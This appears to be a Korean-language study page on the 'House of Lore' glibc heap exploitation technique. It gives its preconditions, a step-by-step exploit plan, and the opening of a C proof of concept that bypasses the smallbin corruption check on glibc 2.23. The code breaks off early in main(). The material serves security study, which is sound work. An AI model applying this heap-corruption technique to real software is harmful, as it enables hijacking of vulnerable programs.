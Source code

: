 # **House of Lore**

## **Conditions**

* 할당받기 원하는 영역에 Fake Chunk 구조를 가지고 있어야 한다.
* 공격자에 의해 Small, Large Chunk 할당과 해제가 자유로워야 한다.
* 공격자에 의해 Freed Chunk의 bk 영역에 원하는 값을 저장할 수 있어야 한다.

## **Exploit Plan**

1. 공격 대상을 찾는다.
    * fake chunk 구조를 가지는 Memory 영역
    * fake chunk 구조를 저장할 수 있는 Memory 영여교
1. 다른 크기의 2개의 Heap 영역 할당
1. 첫 번째 chunk 해제
1. 해제된 첫 번째 chunk의 bk영역에 원하는 영역의 주소 값 저장
1. 두 번째 chunk보다 큰 chunk를 할당
    * 해제된 Small chunk를 Small bin에 등록하기 위함
1. 해제된 chunk와 동일한 크기의 heap을 2개 생성
    * 두 번째 할당된 heap의 영역은 fake chunk가 저장되었던 영역으로 할당된다.

## **Proof of Concept**

```c
/*
Advanced exploitation of the House of Lore - Malloc Maleficarum.
This PoC take care also of the glibc hardening of smallbin corruption.
[ ... ]
else
    {
      bck = victim->bk;
    if (__glibc_unlikely (bck->fd != victim)){
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
       set_inuse_bit_at_offset (victim, nb);
       bin->bk = bck;
       bck->fd = bin;
       [ ... ]
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  fprintf(stderr, "\nWelcome to the House of Lore\n");
  fprintf(stderr, "This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  fprintf(stderr, "This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");

  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);
  fprintf(stderr, "Allocated the first small chunk on the heap at %p\n", victim);
```